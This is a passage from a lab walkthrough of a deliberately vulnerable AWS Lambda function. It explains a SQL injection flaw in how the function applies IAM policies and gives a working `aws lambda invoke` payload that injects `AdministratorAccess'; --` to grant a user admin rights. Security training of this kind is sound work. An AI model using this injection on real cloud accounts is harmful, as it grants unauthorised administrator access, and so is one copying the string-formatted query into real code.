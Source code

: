 ```python
        "policy_names": [
            "AmazonSNSReadOnlyAccess",
            "AWSLambda_ReadOnlyAccess"
        ],
        "user_name": "cg-bilbo-user"
    }
    print(handler(payload, 'uselessinfo'))
```

This Lambda handler takes two arguments upon invocation, `user_name` (string) 
and `policy_names` (string array). It then loops through the provided values in
the `policy_names` argument, using each as part of a SQL statement executed 
against `my_database.db`. If the policy name is present in the `policy_name` 
column of the `policies` table in the database and the value of `public` is 
`True` that IAM policy is applied to the provided username. The call to 
`insert_all` that's commented out is left as a breadcrumb to hint at the 
database schema. Let's verify this:  

```bash
> sqlite3 my_database.db 'select * from policies;'
AmazonSNSReadOnlyAccess|True
AmazonRDSReadOnlyAccess|True
AWSLambda_ReadOnlyAccess|True
AmazonS3ReadOnlyAccess|True
AmazonGlacierReadOnlyAccess|True
AmazonRoute53DomainsReadOnlyAccess|True
AdministratorAccess|False
```

Using string formatting to dynamically build a SQL statement without the use of 
prepared statements opens up the application logic to risk of SQL injection 
attacks. Directly using user input that is controllable by an attacker without
any form of sanitization drastically increases that risk. It's time to hunt for 
and exploit a potential SQLi bug.

## Privilege Escalation

In this case, we could prematurely terminate the following SQL statement because
the value of `policy` is attacker-controlled, removing the requirement of 
`public = 'True'`:  

```python
statement = f"select policy_name from policies where policy_name='{policy}' and public='True'"`
```

```bash
aws lambda invoke --function-name vulnerable_lambda_cgidlbywef16bt-policy_applier_lambda1 --payload '{"policy_names":["AdministratorAccess'\''; --"],"user_name":"cg-bilbo-vulnerable_lambda_cgidlbywef16bt"}' --cli-binary-format raw-in-base64-out response.json --region us-east-1
```

```json
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```
